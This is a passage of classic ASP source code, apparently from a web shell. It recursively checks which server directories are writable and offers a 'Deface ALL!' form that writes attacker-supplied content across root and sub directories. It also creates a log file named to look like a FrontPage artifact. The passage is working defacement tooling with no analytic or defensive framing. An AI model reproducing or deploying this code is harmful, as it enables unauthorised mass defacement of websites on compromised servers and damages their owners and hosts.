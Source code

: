                                 Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face='arial' size='2'&gt;&lt;DIR&gt; " & showobj(subpasta.path) & "&lt;/td&gt;"
                                If Err.Number = 0 Then
                                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='green'&gt;Acesso Permitido&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                                Else
                                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='red'&gt;" & UCase(Err.Description) & "&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                                End If
                                Err.Number = 0
                                Response.Flush
                            End If
                        next
                        masscontador = 0
                    End If
                    Response.Write "&lt;/table&gt;&lt;br&gt;"
                    Call brutemass(folderItem.path & "\","test")
                next
                Set MonRep = Nothing
                Set ColFolders = Nothing
                Set ColFiles0 = Nothing
            Else
                If Request.Form.Count = 0 Then
                    Response.Write "&lt;font face=""arial"" size=""2""&gt;&lt;br&gt;&lt;br&gt;&lt;b&gt;Brute:&lt;/b&gt; Test and Deface root and sub directories.&lt;br&gt;&lt;br&gt;"
                    Response.Write "&lt;b&gt;Single:&lt;/b&gt; Test and deface only root directories.&lt;br&gt;&lt;br&gt;"
                    Response.Write "&lt;form method=""post"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=mass&massact=dfc""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""path"" value=""" & Trim(Request.QueryString("path")) & """&gt;"
                    Response.Write "&lt;center&gt;&lt;font face=""arial"" size=""2""&gt;Deface Code:&lt;br&gt;"
                    Response.Write "&lt;textarea cols='65' rows='15' name=""content""&gt;&lt;/textarea&gt;&lt;br&gt;"
                    Response.Write "&lt;input type=""radio"" name=""massopt"" value=""brute"" checked&gt;Brute&nbsp;&nbsp;&nbsp;"
                    Response.Write "&lt;input type=""radio"" name=""massopt"" value=""single""&gt;Single&lt;br&gt;"
                    Response.Write "&lt;input type=""submit"" value=""Deface ALL!""&gt;&lt;/center&gt;"
                    Response.Write "&lt;/form&gt;"
                Else
                    Set ObjFSO = CreateObject("Scripting.FileSystemObject")
                    patharquivotxt = Left(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),InstrRev(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),"\"))
                    arquivomassdfc = patharquivotxt & "teste.txt"
                    Set Arquivotxt = ObjFso.OpenTextFile(arquivomassdfc, 2, True, False)
                    vetordelinhas = Split(Request.Form("content"),VbCrLf)
                    For i = 0 To UBound(vetordelinhas)
                        Arquivotxt.WriteLine(vetordelinhas(i))
                    Next
                    Set MeuArquivo = ObjFSO.GetFile(arquivomassdfc)
                    
                    If Request.Form("massopt") = "single" Then
                        Call themassdeface(caminho,"single",ObjFSO,MeuArquivo)
                    ElseIf Request.Form("massopt") = "brute" Then
                        Call themassdeface(caminho,"brute",ObjFSO,MeuArquivo)
                    End If
                End If
            End If
        End Sub
        If Trim(Request.QueryString("massact")) = "test" Then
            Set ObjFSO = CreateObject("Scripting.FileSystemObject")
            patharquivotxt = Left(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),InstrRev(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),"\"))
            arquivo = patharquivotxt & "_vti_cnf.log"
            Set Arquivotxt = ObjFSO.CreateTextFile(arquivo,True)